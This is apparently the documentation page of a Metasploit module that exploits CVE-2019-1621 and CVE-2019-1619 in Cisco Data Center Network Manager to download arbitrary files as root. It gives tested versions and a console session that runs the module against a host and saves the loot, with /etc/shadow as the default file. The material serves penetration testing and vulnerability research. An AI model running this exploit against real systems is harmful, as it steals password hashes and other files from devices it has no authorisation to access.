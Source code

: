 ## Vulnerable Application

Cisco Data Center Network Manager exposes a servlet to download files on /fm/downloadServlet.
An authenticated user can abuse this servlet to download arbitrary files as root by specifying
the full path of the file (aka CVE-2019-1621).

This module was tested on the DCNM Linux virtual appliance 10.4(2), 11.0(1) and 11.1(1), and should
work on a few versions below 10.4(2). Only version 11.0(1) requires authentication to exploit
(see References to understand why), on the other versions it abuses CVE-2019-1619 to bypass authentication.

## Scenarios

Setup RHOST, pick the file to download (FILENAME, default is /etc/shadow) and enjoy!

```
msf5 exploit > use auxiliary/admin/networking/cisco_dcnm_download

msf5 auxiliary(admin/networking/cisco_dcnm_download) > set rhost 10.75.1.40
rhost => 10.75.1.40
msf5 auxiliary(admin/networking/cisco_dcnm_download) > run

[+] 10.75.1.40:443 - Detected DCNM 10.4(2)
[*] 10.75.1.40:443 - No authentication required, ready to exploit!
[+] 10.75.1.40:443 - Got sysTime value 1567081446000
[+] 10.75.1.40:443 - Successfully authenticated our JSESSIONID cookie
[+] File saved in: /home/john/.msf4/loot/20190829122407_default_10.75.1.40_ciscoDCNM.http_855907.bin
[*] Auxiliary module execution completed
```
